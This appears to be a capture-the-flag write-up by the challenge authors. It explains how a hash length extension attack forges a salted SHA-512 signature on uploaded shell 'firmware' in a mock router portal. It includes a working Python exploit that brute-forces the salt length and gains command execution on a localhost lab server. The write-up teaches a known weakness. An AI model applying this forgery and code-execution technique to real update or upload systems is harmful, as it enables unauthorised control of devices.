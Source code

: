 # Potato

This challenge was made by my good friend [flawwan](https://github.com/flawwan/) and me. Here's how we thought this challenge should be solved. Shoutout to `D Team` for being the only team who solved it!

![](pics/potato.png)

### Summary

* Uploaded `sh` files are executed if signature matches
* Example file and signature are downloadable
* Signature is calculated: 
  * `sha512( concatenate($SALT, $filecontents) )`
* Unknown salt and salt length
* Signature can be predicted if:
  * The new data is appended to original data
    * The new data will be prepended by junk, but the last row of the original file is a comment, so the junk will be commented out
* Solution: guess the salt length and prepend your payload with a newline.
  * A hint was later released: "9 is a good number". This was the salt length.

### Walkthrough
We are given a link to a router configuration portal by "Potato Router Systems"

![](pics/login.gif)

The login is admin:admin. This was released as a hint.
Once logged in, we can download the running "firmware" and its signature. We are also able to upload new "firmware", provided that we have a signature for it. 

![](pics/uploadsite.png)

The contents of the original `firmware.bin`:
``` 
echo 'Welcome to super secure router alpha 0.01'
#Provide a neat motd for the user.

#TODO Add some security checks. This script should be secure. i dunno
```
Seems like the site runs this file to provide the welcome message.

**Note** for later: the last line of the file is a comment (`#`) and does not end with a newline.

The `firmware.sig` is just a sha512 hash:
```c41e06714618b4248a4efa4980a67d2f0b2bb0caaeb7f4240b6e8e11d1d1b6461182713b57d405209cff46ec19c0c7fe931b374e63e822cf8ea933c51b33d760```

We also get to see the PHP used for this upload page. Here, we can see how the signature is calculated. The unknown salt is prepended to the binary contents, and then the sha512 signature is calculated and compared to the uploaded signature. If it's a match, the original firmware is overwritten by the new one.
![](pics/hashcomparison.png)

### Solution
Since we have the original data and its signature, we can use this to append data and predict the signature, provided that we know or can guess the length of `$SALT`. There are multiple different tools for this - In this case we use [HashPump](https://github.com/bwall/HashPump).

```
>>> import hashpumpy
>>> help(hashpumpy.hashpump)
Help on built-in function hashpump in module hashpumpy:

hashpump(...)
    hashpump(hexdigest, original_data, data_to_add, key_length) -> (digest, message)

    Arguments:
        hexdigest(str):      Hex-encoded result of hashing key + original_data.
        original_data(str):  Known data used to get the hash result hexdigest.
        data_to_add(str):    Data to append
        key_length(int):     Length of unknown data prepended to the hash

    Returns:
        A tuple containing the new hex digest and the new message.
>>> hashpumpy.hashpump('ffffffff', 'original_data', 'data_to_add', len('KEYKEYKEY'))
('e3c4a05f', 'original_datadata_to_add')
```

For this to work however, the extension attack must add junk data inbetween the original data and the appended payload. Remember the note from earlier? The last line of the original file is commented out, so the junk data will also be commented out. If our payload starts with a newline, our payload file will be both valid and executed.

So we can create a script which guesses the salt length by incrementing until we no longer get "Bad signature...":
#### exploit.py
```python
#!/usr/bin/python3

import sys
import requests
from hashpumpy import hashpump
from time import sleep

def forge_stuff(salt_length):
    with open("firmware.bin", "r") as fh:
        original_data = fh.read()
    with open("firmware.sig", "r") as fh:
        original_sig = fh.read()

    data_to_add = "\necho hej"

    result = hashpump(original_sig,
                      original_data, 
                      data_to_add, 
                      salt_length)

    with open("payload.sig", "w") as fh:
        fh.write(result[0])

    with open("payload.bin", "wb") as fh:
        fh.write(result[1])


login={"username":"admin", "password":"admin", "submit":""}
s = requests.Session() 
r = s.post("http://localhost:58888/login.php", data=login)
i=1

while "Bad" in r.text:
    forge_stuff(i)
    with open("payload.sig", "rb") as signature:
        with open("payload.bin", "rb") as payload:
            files={ "sig": signature, "bin" : payload}
            r=s.post("http://localhost:58888/update.php", data={"submit":""}, files=files)
            sleep(0.1)
    i+=1

print(r.text)
print("\n\n\nSalt length: %s" % str(i-1))
```

And we find that the salt length is 9.
```
$ ./exploit.py 
...<omitted>...

Salt length: 9
```

Now we have command execution and are able to `cat /flag`.

![](pics/flag.png)
